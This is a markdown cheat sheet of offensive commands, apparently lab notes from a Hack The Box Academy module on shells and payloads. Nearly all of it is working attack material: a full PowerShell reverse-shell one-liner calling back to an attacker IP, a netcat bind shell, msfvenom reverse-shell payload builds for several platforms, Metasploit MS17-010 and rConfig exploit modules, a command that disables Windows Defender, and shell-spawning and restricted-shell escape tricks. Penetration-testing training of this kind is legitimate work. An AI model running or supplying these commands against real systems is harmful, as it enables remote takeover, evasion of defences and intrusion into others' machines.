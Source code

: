 # Common Exploitation & Shell Commands

## Remote Desktop & Environment Variables
| Command | Description |
|---------|-------------|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol |
| `env` | Discovers system environmental variables, useful for identifying the shell in use |

## Netcat
| Command | Description |
|---------|-------------|
| `sudo nc -lvnp <port #>` | Starts a netcat listener on a specified port |
| `nc -nv <ip address of computer with listener started> <port>` | Connects to a netcat listener at the specified IP address and port |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell to a specified IP and port |

## PowerShell Reverse Shell & Defense Evasion
| Command | Description |
|---------|-------------|
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535` |%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" | PowerShell one-liner reverse shell |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Disables Windows Defender real-time monitoring |

## Metasploit Modules
| Command | Description |
|---------|-------------|
| `use exploit/windows/smb/psexec` | Exploits Windows SMB to gain a shell using PsExec |
| `shell` | Drops into a system shell from a Meterpreter session |
| `use auxiliary/scanner/smb/smb_ms17_010` | Checks if a host is vulnerable to MS17-010 |
| `use exploit/windows/smb/ms17_010_psexec` | Exploits MS17-010 vulnerability to gain a reverse shell |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Exploits rConfig 3.9.6 to gain a reverse shell |

## MSFvenom Payloads
| Command | Description |
|---------|-------------|
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | Creates a Linux ELF reverse shell payload |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | Creates a Windows EXE reverse shell payload |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | Creates a macOS Mach-O reverse shell payload |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | Creates an ASP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | Creates a JSP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | Creates a WAR Java/JSP web reverse shell payload |

## Interactive Shell Spawning
| Command | Description |
|---------|-------------|
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Uses Python to spawn an interactive shell |
| `/bin/sh -i` | Spawns an interactive shell |
| `perl -e 'exec "/bin/sh";'` | Uses Perl to spawn an interactive shell |
| `ruby: exec "/bin/sh"` | Uses Ruby to spawn an interactive shell |
| `Lua: os.execute('/bin/sh')` | Uses Lua to spawn an interactive shell |
| `awk 'BEGIN {system("/bin/sh")}'` | Uses Awk to spawn an interactive shell |
| `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses `find` and `awk` to spawn a shell |
| `find . -exec /bin/sh \; -quit` | Alternative `find` command to spawn a shell |
| `vim -c ':!/bin/sh'` | Uses Vim to spawn an interactive shell (useful for escaping restricted shells) |

## File & Permission Enumeration
| Command | Description |
|---------|-------------|
| `ls -la <path/to/fileorbinary>` | Lists files & directories with permissions |
| `sudo -l` | Displays commands the current user can run as sudo |

## Web Shell Locations (ParrotOS & Pwnbox)
| Command | Description |
|---------|-------------|
| `/usr/share/webshells/laudanum` | Location of Laudanum web shells |
| `/usr/share/nishang/Antak-WebShell` | Location of Antak WebShell |
